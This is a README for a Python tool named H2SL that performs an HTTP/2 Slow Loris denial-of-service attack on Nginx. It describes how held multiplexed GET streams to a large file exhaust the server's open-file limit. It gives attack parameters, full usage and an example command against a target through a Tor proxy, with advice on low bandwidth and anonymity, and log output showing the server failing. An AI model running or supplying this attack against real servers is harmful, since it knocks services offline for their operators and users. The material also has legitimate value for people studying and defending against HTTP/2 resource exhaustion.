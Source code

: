 # H2SL: HTTP2 Slow Loris (v1.0!)
## What is this?
This is, as usual, the result of an experiment.

I was analyzing the HTTP2 protocol on Nginx, more specifically the multiplexing aspect of it, when I noticed an interesting thing.
NDA: Everything has been tested on the default Ubuntu installer 1.18.0 and the stable 1.22.1.

I noticed that in Nginx (and probably in other webservers too), using HTTP2 and making a GET request to a big file (>1MB seems enough) a file handler gets spawned and stays locked (plainly visible by launching lsof on the target file) even if the end_stream header is not present and even if no file read is actually requested.

Knowing this I noticed that the maximum available handlers I could open on Nginx (per TCP stream) is 129, which seems consistent on all my virtualized systems.

I then proceeded into writing a multithreaded python script that spawns 129 multiplexed GET requests per TCP stream, never sending the end_stream header and never actually asking for data.
In all my tests just 100 threads are well more then enough to fill the maximum allowed open files for a regular linux user (actually requesting 100*129 open files == 12'900 file handles)

This results in Nginx just plainly stopping answering regularly and starting to answer with only **errors 500**, filling the logs with:
```
2023/02/20 22:33:16 [crit] 3078387#3078387: accept4() failed (24: Too many open files)
```

These requests will stay up until nginx starts to starve them (~60s), but then we can directly reuse the same socket completely restarting an HTTP2 connection.

All this uses little to no bandwidth, and it's perfectly doable under TOR network too.
In my tests 100 threads can be kept online with just **~3mbps of upload speed** and less than **0.5mbps of download speed** or 500 threads can be kept online with just **~7mbps of upload speed** and **less then 1mbps of download speed**, with basically 0% CPU usage from the attacker side, so it's absolutely plausible to believe that an attacker host could reach way more than a few thousands threads.
### TL;DR:
**It works perfectly with nginx using http2.**

MIGHT work on other webservers too. I haven't personally tested that.
## Usage

```
~$ python -BO ./h2sl.py -h
usage: h2sl.py [-h] [--port PORT] [--threads THREADS] [--requests REQUESTS] [--filepath FILEPATH] [--wait WAIT] [--proxy PROXY] server_name

H2SL - HTTP2 Slow Loris v1.0 by ShotokanZH

positional arguments:
  server_name           the IP or hostname to attack

options:
  -h, --help            show this help message and exit
  --port PORT, -p PORT  the HTTPS port where an HTTP2 server is listening (Default: 443)
  --threads THREADS, -t THREADS
                        number of threads, as a 'thumb rule' 100 is usually enough for a standard nginx. (Default: 1)
  --requests REQUESTS, -r REQUESTS
                        requests per HTTP2 connection, multiplexed, default should be the nginx max (Default: 129)
  --filepath FILEPATH, -f FILEPATH
                        path to a big file, >1MB preferred (Default: /)
  --wait WAIT, -w WAIT  waiting time to start a new thread if no ack is received, in seconds (Default: 1)
  --proxy PROXY, -x PROXY
                        uses the selected socks4/5 proxy. Example: socks4://127.0.0.1:9050
```

To make it work we need a big static file (~>1MB) passed as argument to `--filepath`, such as an image, a big css or a video.

For the sake of clarity, '`/bigimage.png`' will be used in the following example

```shell
~$ python3 -m pip install -r requirements.txt
~$ python3 -BO h2sl.py evil_website.com --filepath '/bigimage.png' --threads 100 --proxy socks4://127.0.0.1:9050
H2SL - HTTP2 Slow Loris v1.0 by ShotokanZH

Using socks proxy: {'version': '4', 'host': '127.0.0.1', 'port': 9050}

Checking http2.. OK!

Starting threads..
Starting thread |█████████████████████████████████| 100.0% - 100/100

H2SL Online! (^C to quit)
```

On the remote server we can check the open file handlers like this:
```shell
~$ lsof /path/to/bigimage.png | wc -l
11994
```
And Nginx error log is just filled with:
```
2023/02/22 17:04:51 [crit] 3316951#3316951: accept4() failed (24: Too many open files)
2023/02/22 17:04:51 [crit] 3316947#3316947: accept4() failed (24: Too many open files)
2023/02/22 17:04:52 [crit] 3316951#3316951: accept4() failed (24: Too many open files)
2023/02/22 17:04:52 [crit] 3316947#3316947: accept4() failed (24: Too many open files)
2023/02/22 17:04:52 [crit] 3316951#3316951: accept4() failed (24: Too many open files)
2023/02/22 17:04:52 [crit] 3316947#3316947: accept4() failed (24: Too many open files)
2023/02/22 17:04:53 [crit] 3316951#3316951: accept4() failed (24: Too many open files)
```

The server should be completely unresponsive after just 100 threads.
